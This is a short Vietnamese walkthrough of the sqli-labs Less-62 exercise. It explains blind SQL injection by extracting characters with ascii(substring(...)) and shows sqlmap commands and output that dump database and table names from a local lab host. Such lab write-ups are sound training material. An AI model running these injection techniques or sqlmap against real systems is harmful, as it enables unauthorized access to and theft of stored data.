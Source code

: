 - Tài liệu tham khảo 

    + Bảng ascii : http://sticksandstones.kstrom.com/appen.html
    + Blind SQL Injection: http://www.securityidiots.com/Web-Pentest/SQL-Injection/Blind-SQL-Injection.html
    + sqlmap : https://github.com/sqlmapproject/sqlmap/wiki/Usage

- Ý tưởng

    + substring('n00b',1,1) trả về n.
    + substring('n00b',2,1) trả về 0.
    + substring('n00b',3,1) trả về 0.
    + substring('n00b',4,1) trả về b.
    + substring('n00b',5,1) trả về empty.

Ascii(substring('n00b',1,1)) tức là mã ascii của n. Đối chiếu với bảng mã `n = 110` 

Tiếp đó chúng ta sẽ đi mò từng kí tự 1 bằng cách

```
ascii(substring((<your_query_here_which_returns_one_row>),1,1))<any_number_here
```

- Ở bài này tôi sử dụng công cụ sqlmap 

    + Dump database 

    ```
    python sqlmap.py -u 'http://10.10.10.171/sqli-labs/Less-62/?id=1%27)' --dbs
    ```

    + output 

    ```
    [15:45:33] [INFO] retrieved: security
    available databases [5]:
    [*] challenges
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] security
    ```

    + Dump tables của db `challenges`

    ```
    python sqlmap.py -u 'http://10.10.10.171/sqli-labs/Less-62/?id=1%27)' --tables -D challenges
    ```

    + output 

    ```
    [16:02:35] [WARNING] increasing time delay to 2 seconds
    JTGC8HN
    Database: challenges
    [1 table]
    +------------+
    | FIPJTGC8HN |
    +------------+
    ```
